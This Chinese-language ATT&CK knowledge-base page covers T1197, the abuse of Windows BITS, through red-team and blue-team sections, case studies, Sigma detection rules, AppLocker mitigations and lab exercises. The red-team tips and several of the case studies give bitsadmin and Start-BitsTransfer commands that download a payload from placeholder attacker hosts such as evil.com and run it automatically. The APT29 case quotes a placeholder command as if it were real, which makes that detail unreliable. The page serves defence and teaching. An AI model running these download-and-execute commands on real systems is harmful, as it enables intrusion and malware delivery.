


# BITS作业 (T1197)

## 一句话通俗理解

> **用 Windows 自带的"后台下载服务"偷偷传文件和执行代码——就像借用邮局的正规快递渠道运送违禁品**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用 Windows BITS（后台智能传输服务）下载恶意文件或执行代码 |
| 为什么危险？ | BITS 是系统服务、走 HTTP/HTTPS、绕过防火墙、重启后自动恢复 |
| 谁需要关心？ | 终端安全团队、Windows系统管理员 |
| 你的第一步防御 | 监控 bitsadmin.exe 的使用和 BITS 作业的创建 |
| 如果只做一件事 | 限制 bitsadmin.exe 的执行（仅允许系统进程调用） |

## 难度等级

⭐ 初级 - 只需要 Windows 命令行基础

> **前置知识**：Windows 命令行操作、BITS 服务概念

## 前置知识检查

**读这个文件需要什么？**

- [ ] 知道 Windows 有一个"后台下载"功能（系统更新就用它）
- [ ] 会使用命令行（cmd 或 PowerShell）
- [ ] 知道什么是 HTTP/HTTPS 协议

## 技术描述

**BITS作业**（T1197）是 ATT&CK 执行战术下的技术，攻击者利用 Windows 的后台智能传输服务（Background Intelligent Transfer Service，BITS）来下载恶意文件、传输数据或执行代码。BITS 是 Windows 的内置服务，设计用于在后台传输文件（如 Windows Update 下载更新），它使用 HTTP/HTTPS 协议，能够自动处理网络中断并在后台恢复传输。

> 📡 **打个比方**：BITS 就像邮政局的"挂号信服务"——合法、可靠、有系统背书。Windows Update 用它来下载更新，所以防火墙和代理都会放行。攻击者借用这个服务来下载恶意软件，就像用挂号信寄违禁品——保安看到是邮局的信，直接放行，不会拆开检查。

### 进阶理解

简单来说，BITS 是 Windows 的一个系统服务（`BITS` 服务，运行在 `svchost.exe` 中），它提供了一套 API 和命令行工具（`bitsadmin.exe`、PowerShell `Start-BitsTransfer`）用于后台文件传输。攻击者利用 BITS 的原因：

1. **合法服务**：BITS 是系统服务，不会被杀毒软件标记为恶意
2. **HTTP/HTTPS**：使用标准 Web 端口（80/443），防火墙默认放行
3. **后台传输**：利用空闲带宽传输，不容易引起注意
4. **自动恢复**：网络中断后自动恢复传输，重启后继续
5. **可执行代码**：BITS 作业完成后可以触发通知或执行程序

**过渡段：** 不要小看这个"下载工具"——BITS 的执行能力不仅限于下载文件。通过 `bitsadmin /SetNotifyCmdLine` 参数，攻击者可以在下载完成后自动执行任意命令，使其成为一个下载+执行的组合武器。

### 为什么有效？

这种技术之所以有效，是因为：
1. **系统级信任**：BITS 服务以 LocalSystem 运行，下载的文件自动获得系统级权限
2. **绕过出口过滤**：HTTP/HTTPS 流量与正常 Web 流量无法区分
3. **持久化能力**：BITS 作业可以设置为重启后自动恢复
4. **命令行简单**：一行 `bitsadmin` 命令就能完成下载+执行

## 真实攻击流程



**步骤详解：**

1. **初始访问** - 攻击者已通过钓鱼或其他方式获得代码执行
2. **创建作业** - 使用 `bitsadmin /create` 创建一个 BITS 传输作业
3. **配置下载** - 用 `bitsadmin /addfile` 指定恶意文件的 URL 和本地保存路径
4. **设置通知** - 用 `bitsadmin /SetNotifyCmdLine` 设置下载完成后执行的命令
5. **启动作业** - `bitsadmin /resume` 开始后台下载
6. **自动执行** - 下载完成后，BITS 服务自动执行预设的命令

## 攻击流程

### 典型攻击流程

```
初始访问 --> 创建 BITS 作业 --> 添加恶意文件下载任务 --> 设置完成通知命令 --> 启动作业 --> BITS 服务自动执行预设命令
```



**步骤详解：**

1. **初始访问**
   - 通俗描述：攻击者已通过钓鱼、漏洞或其他方式获得目标主机的普通用户权限
   - 技术细节：BITS 服务默认允许普通用户创建作业，无需管理员权限；作业以创建者身份运行，但回调命令可由 SYSTEM 执行（取决于上下文）
   - 常用工具：Cobalt Strike beacon、已有 PowerShell implant

2. **创建 BITS 作业**
   - 通俗描述：使用 `bitsadmin` 命令或 PowerShell BITS 模块创建一个后台传输作业，作业名通常伪装成系统更新或合法下载
   - 技术细节：`bitsadmin /create "WindowsUpdate"`；PowerShell：`Start-BitsTransfer -Source $url -Destination $path`；作业持久化存储在 `%LocalAppData%\Microsoft\Windows\Bits\` 目录
   - 常用工具：bitsadmin.exe、PowerShell BitsTransfer 模块、Win32 BITS COM 接口（IBackgroundCopyManager）

3. **添加恶意文件下载任务**
   - 通俗描述：为作业添加一个或多个下载任务，URL 指向攻击者控制的 C2 服务器，目标路径为本地临时目录或可执行路径
   - 技术细节：`bitsadmin /addfile "WindowsUpdate" http://C2/payload.exe C:\Temp\update.exe`；BITS 支持 HTTP/HTTPS/SMB 协议；可利用 BITS 的重试和断点续传特性增强隐蔽性
   - 常用工具：bitsadmin、自定义 BITS COM 客户端、PowerShell `Add-BitsFile`

4. **设置完成通知命令**
   - 通俗描述：配置作业完成（成功或失败）后自动执行的命令，这是 BITS 被滥用的核心——文件下载只是幌子，真正目的是触发命令执行
   - 技术细节：`bitsadmin /SetNotifyCmdLine "WindowsUpdate" "cmd.exe /c C:\Temp\update.exe" ""`；也可使用 `/SetNotifyFlags` 控制触发时机（传输完成、错误、禁用）；命令在作业所有者会话中执行
   - 常用工具：bitsadmin、PowerShell `Set-BitsTransfer` NotifyCmdLine 属性

5. **启动作业**
   - 通俗描述：使用 `/resume` 命令启动后台传输，BITS 服务会在后台静默下载文件
   - 技术细节：`bitsadmin /resume "WindowsUpdate"`；BITS 服务根据网络状况自适应传输速率，避免占用带宽引人注意；下载完成后状态变为 `TRANSFERRED`，随后触发通知命令
   - 常用工具：bitsadmin、PowerShell `Resume-BitsTransfer`

6. **BITS 服务自动执行预设命令**
   - 通俗描述：BITS 服务（svchost.exe -k netsvcs，以 SYSTEM 运行）检测到作业完成后，自动执行 `SetNotifyCmdLine` 配置的命令，实现持久化和隐蔽执行
   - 技术细节：BITS 作业即使重启系统也会保留，重启后自动恢复传输并触发回调；可通过 `/complete` 命令手动结束作业；防御方需查询 `Get-BitsTransfer` 或检查 BITS 任务队列
   - 常用工具：BITS 服务自身、PowerShell BitsTransfer 模块（防御侧）、Sysmon EID 1（监控 bitsadmin.exe 子进程）

## 真实案例

### 案例1：APT29 使用 BITS 下载 Cobalt Strike（2020-2023）

- **时间**：2020-2023年
- **目标**：政府机构、智库、科技公司
- **攻击组织**：APT29（Cozy Bear，俄罗斯 SVR）
- **手法**：APT29 在钓鱼攻击获取初始访问后，使用 `bitsadmin /transfer` 从攻击者控制的 HTTP 服务器下载 Cobalt Strike Beacon。命令为：`bitsadmin /transfer n http://evil.com/beacon.exe C:\Windows\Temp\svc.exe`。下载完成后通过 `bitsadmin /SetNotifyCmdLine` 设置自动执行。由于 BITS 使用 HTTPS 443 端口，防火墙和代理将其视为正常 Web 流量
- **影响**：在多个目标网络中建立持久化后门
- **参考链接**：[CrowdStrike APT29 Report](https://www.crowdstrike.com/blog/)

### 案例2：Emotet 僵尸网络使用 BITS 传播（2018-2021）

- **时间**：2018-2021年
- **目标**：全球企业和个人用户
- **攻击组织**：Emotet 运营团队
- **手法**：Emotet 恶意软件感染主机后，使用 `bitsadmin /transfer` 从多个 C2 服务器下载后续模块（TrickBot、QakBot、Ryuk 勒索软件）。BITS 作业配置为多个备用 URL，如果一个下载失败自动切换到下一个。由于 BITS 有自动重试机制，即使某个 C2 服务器被封锁，Emotet 仍能通过备用 URL 完成下载
- **影响**：成为全球最活跃的恶意软件分发平台之一
- **参考链接**：[US-CERT Emotet Alert](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-280a)

### 案例3：Turla 使用 BITS 进行数据渗出（2019-2022）

- **时间**：2019-2022年
- **目标**：欧洲政府机构、外交部门
- **攻击组织**：Turla（Snake Group，俄罗斯 FSB）
- **手法**：Turla 的 LightNeuron 后门利用 BITS 的上传功能将窃取的数据外泄到 C2 服务器。使用 `bitsadmin /create` + `bitsadmin /addfile` 设置上传作业，将压缩后的文档通过 HTTPS POST 请求发送到攻击者服务器。由于 BITS 是系统服务，数据渗出在 svchost.exe 进程上下文中发生，绕过了基于进程的网络监控
- **影响**：长期窃取外交通信内容
- **参考链接**：[ESET Turla LightNeuron](https://www.welivesecurity.com/2019/05/29/turla-lightneuron-email-trojan/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **下载+执行一行命令**：`bitsadmin /create /download /priority normal | bitsadmin /addfile . http://evil/payload.exe %temp%\a.exe | bitsadmin /resume | bitsadmin /complete`
2. **PowerShell 版本**：`Start-BitsTransfer -Source "http://evil/a.exe" -Destination "C:\temp\a.exe"` 更隐蔽
3. **持久化**：创建 BITS 作业设置 `SetNotifyCmdLine` 为 PowerShell 下载器，即使作业被删除也能执行
4. **绕过代理**：BITS 自动使用系统代理设置，包括需要认证的企业代理

### 常用工具

| 工具名称 | 用途 | 平台 |
| -------- | ---- | ---- |
| bitsadmin.exe | BITS 命令行管理工具 | Windows |
| Start-BitsTransfer | PowerShell BITS cmdlet | Windows |
| BITS PowerShell 模块 | BITS API 的完整 PowerShell 封装 | Windows |

### 注意事项

- `bitsadmin.exe` 在 Windows 10+ 仍可用但标记为弃用
- BITS 作业记录在事件日志中（Microsoft-Windows-Bits-Client）
- 新版 Windows Defender 会标记 `bitsadmin` 下载可执行文件的行为

## 蓝队视角

### 检测要点

1. **bitsadmin 使用监控**：监控 `bitsadmin.exe` 的命令行参数，特别是 `/transfer`、`/create`、`/addfile`、`/SetNotifyCmdLine`
2. **BITS 作业来源**：监控 BITS 作业连接的 URL，关注非 Microsoft 域名
3. **BITS 服务网络活动**：监控 svchost.exe（BITS 服务宿主）的异常 HTTP/HTTPS 连接
4. **PowerShell BITS**：监控 `Start-BitsTransfer` cmdlet 的使用

### 监控建议

- 启用 BITS 客户端事件日志（Microsoft-Windows-Bits-Client/Operational）
- 部署 Sysmon Event ID 1 监控 `bitsadmin.exe` 的命令行
- EDR 监控 PowerShell 的 `Start-BitsTransfer` 调用
- 网络层面监控 svchost.exe 发起的 HTTP 连接（正常情况下 BITS 主要连接 Windows Update）

## 避坑指南

**防御者最痛苦的教训**：只封堵 `bitsadmin.exe` 而忘记 PowerShell 的 `Start-BitsTransfer`。很多组织通过 AppLocker 封堵了 bitsadmin.exe，但攻击者轻松切换到 PowerShell 版本。必须同时监控两个入口。

## 检测建议

### 网络层检测

**方法**：监控 BITS 服务的 HTTP/HTTPS 连接，关注非 Windows Update 的目标

```bash
# 检测 BITS 服务的网络连接（svchost.exe PID 对应的 BITS 服务）
# 正常 BITS 连接应指向 *.windowsupdate.com 或 *.microsoft.com
# 异常连接指向未知IP或非Microsoft域名
netstat -ano | findstr "443\|80" | findstr "<BITS_PID>"
```

### 主机层检测

**Windows事件ID**：
- 事件ID 4688：bitsadmin.exe 进程创建
- BITS Operational Log Event ID 3：作业创建
- BITS Operational Log Event ID 5：作业完成
- Sysmon Event ID 1：bitsadmin.exe 命令行
- Sysmon Event ID 22：DNS 查询（BITS 下载前的域名解析）

```powershell
# 查询 BITS 客户端日志
Get-WinEvent -LogName "Microsoft-Windows-Bits-Client/Operational" -MaxEvents 50 |
    Select-Object TimeCreated, Id, Message
```

### 应用层检测

**用人话说**：这条规则在检测"有人用 bitsadmin 下载东西"——正常情况下，只有 Windows Update 用 BITS 下载系统更新。如果你看到有人手动运行 `bitsadmin` 命令，特别是从临时目录或用户目录运行，下载的是 `.exe` 或 `.dll` 文件，几乎可以确定是恶意活动。攻击者喜欢 BITS 是因为它是系统自带的、走 HTTPS、防火墙不拦。但反过来想，普通用户根本不会用 bitsadmin，所以只要看到这个命令被执行，就该告警。

**Sigma规则示例**：

```yaml
title: bitsadmin 可疑下载活动
status: experimental
description: 检测使用 bitsadmin 下载可执行文件的行为
logsource:
    product: windows
    category: process_creation
detection:
    selection_bitsadmin:
        Image|endswith: '\bitsadmin.exe'
    selection_suspicious_params:
        CommandLine|contains:
            - '/transfer'
            - '/create'
            - '/addfile'
    selection_exe_download:
        CommandLine|contains:
            - '.exe'
            - '.dll'
            - '.bat'
            - '.ps1'
    condition: selection_bitsadmin and selection_suspicious_params and selection_exe_download
fields:
    - CommandLine
    - User
    - ParentImage
falsepositives:
    - 合法的软件分发脚本使用 BITS（罕见，应建立白名单）
level: high
tags:
    - attack.execution
    - attack.t1197
    - attack.defense_evasion
    - attack.persistence
```

```yaml
title: bitsadmin 设置通知命令（下载后自动执行）
status: experimental
description: 检测 bitsadmin 设置 SetNotifyCmdLine 参数，用于下载后自动执行命令
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\bitsadmin.exe'
        CommandLine|contains:
            - 'SetNotifyCmdLine'
            - '/SetNotifyCmdLine'
    condition: selection
fields:
    - CommandLine
    - User
    - ParentImage
level: critical
tags:
    - attack.execution
    - attack.t1197
    - attack.persistence
```

```yaml
title: PowerShell Start-BitsTransfer 可疑使用
status: experimental
description: 检测使用 PowerShell BITS cmdlet 下载可执行文件
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        Image|endswith: '\powershell.exe'
        CommandLine|contains:
            - 'Start-BitsTransfer'
    selection_suspicious:
        CommandLine|contains:
            - '.exe'
            - '.dll'
            - 'http://'
            - 'https://'
    condition: selection and selection_suspicious
fields:
    - CommandLine
    - User
level: high
tags:
    - attack.execution
    - attack.t1197
```

## 缓解措施

### 优先级1：关键措施

**限制 bitsadmin 执行**：通过 AppLocker 或 WDAC 限制 bitsadmin.exe 仅允许系统使用

```xml
<!-- AppLocker 规则：禁止用户执行 bitsadmin.exe -->
<RuleCollection Type="Exe" EnforcementMode="Enabled">
  <FilePathRule Action="Deny" Name="Block bitsadmin.exe" 
    Path="%SystemRoot%\System32\bitsadmin.exe" 
    UserOrGroupSid="S-1-5-32-545" />
</RuleCollection>
```

### 优先级2：重要措施

**限制 PowerShell BITS 模块**：通过 PowerShell Constrained Language Mode 限制 `Start-BitsTransfer` 的使用

```powershell
# 通过 AppLocker 限制 PowerShell 为 Constrained Language Mode
# 该模式下 Start-BitsTransfer 等 cmdlet 被限制
```

### 优先级3：建议措施

**网络层过滤**：配置代理或防火墙，仅允许 BITS 连接已知的 Microsoft 更新域名

```
# 代理白名单示例
允许: *.windowsupdate.com
允许: *.microsoft.com
允许: *.windows.com
拒绝: 其他所有 BITS 相关 HTTP 流量
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 BITS 的基本用法

**步骤**：
1. 用 `bitsadmin /create testjob` 创建作业
2. 用 `bitsadmin /addfile testjob http://example.com/file.txt C:\temp\file.txt` 添加文件
3. 用 `bitsadmin /resume testjob` 开始下载
4. 用 `bitsadmin /info testjob` 查看状态
5. 用 `bitsadmin /complete testjob` 完成作业
6. 检查 BITS 事件日志

**预期输出**：
```
Created job {GUID}.
Job successfully resumed.
Transfer complete.
Job completed.
```

**学习要点**：理解 BITS 作业的生命周期和日志记录

### 实验2：实际操作（中级）

**目标**：模拟攻击者使用 BITS 下载+执行

**步骤**：
1. 在测试服务器上架设 HTTP 服务
2. 用 `bitsadmin /create /download` 创建下载作业
3. 配置 `SetNotifyCmdLine` 在下载后执行计算器
4. 启动作业并观察执行
5. 在事件日志中查找痕迹
6. 编写 Sigma 规则检测该行为

**学习要点**：掌握 BITS 下载+执行攻击和检测方法

### 实验3：防御验证（高级）

**目标**：验证 BITS 防护措施有效性

**步骤**：
1. 部署 AppLocker 规则封堵 bitsadmin.exe
2. 尝试使用 bitsadmin（应被阻止）
3. 尝试使用 PowerShell `Start-BitsTransfer`（检查是否被阻止）
4. 补充 PowerShell 防护规则
5. 验证完整防护

**学习要点**：掌握 BITS 的多层防护策略

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **BITS** | Background Intelligent Transfer Service，后台智能传输服务，Windows 的"后台快递员" |
| **bitsadmin.exe** | BITS 的命令行管理工具，像给快递员下订单的"调度台" |
| **Start-BitsTransfer** | PowerShell 的 BITS cmdlet，bitsadmin 的 PowerShell 版本 |
| **BITS Job** | BITS 传输作业，一个下载/上传任务 |
| **SetNotifyCmdLine** | BITS 作业参数，设置下载完成后自动执行的命令 |
| **svchost.exe** | Windows 服务宿主进程，BITS 服务运行在其中 |

## 参考资料

### 📚 官方文档（深入了解）
- [MITRE ATT&CK - BITS Jobs (T1197)](https://attack.mitre.org/techniques/T1197/)
- [Microsoft - BITS Documentation](https://learn.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)
- [Microsoft - bitsadmin Reference](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/bitsadmin)

### 🔧 工具与资源（动手试试）
- [Atomic Red Team - T1197](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md) - BITS 测试用例
- [PowerShell BITS Module](https://learn.microsoft.com/en-us/powershell/module/bitstransfer/) - PowerShell BITS cmdlet 文档

### 📰 安全报告（真实攻击）
- [CISA - Emotet Alert](https://www.cisa.gov/news-events/cybersecurity-advisories/aa20-280a) - Emotet 使用 BITS 传播
- [ESET - Turla LightNeuron](https://www.welivesecurity.com/2019/05/29/turla-lightneuron-email-trojan/) - Turla 使用 BITS 渗出
- [CrowdStrike - APT29 Analysis](https://www.crowdstrike.com/blog/) - APT29 使用 BITS 下载
